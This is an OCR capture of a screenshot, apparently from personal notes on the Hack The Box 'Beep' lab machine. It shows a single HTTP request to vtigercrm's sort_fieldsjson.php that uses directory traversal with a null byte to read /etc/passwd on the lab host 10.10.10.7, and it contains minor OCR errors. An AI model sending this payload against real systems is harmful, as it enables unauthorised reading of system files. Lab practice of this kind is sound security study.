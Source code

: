 ![](Maszyny/Linux/Beep/Pasted%20image%2020210811012053.png)

1 GET /vtigercrm/modules/com_vtiger_workflow/sort fieldsjson.php?module_name=../../../../../../../..%2fetc%2fpasswd%00 HTTP/1.1
2 Host: 10.10.10.7
3 Connection: close
4 sec-ch-ua: ";Not A Brand"; v="99", "Chromium"; v="88"||
5 sec-ch-ua-mobile: 70
6 Upgrade-Insecure-Requests: 1
7 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebkit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
8 Accept: text/html,application/xhtml+xml,application/xml;q=0.9, image/avif, image/webp, image/apng,*/*;q=0.8, application/signed-exchange; v=b3;q=0.9
9 Sec-Fetch-Site: none
10 Sec-Fetch - Mode: navigate
11 Sec-Fetch-User: ?1
12 Sec-Fetch-Dest: document
13 Accept-Encoding: gzip,deflate
14 Accept -Language: en-US, en;q=0.9
15
16
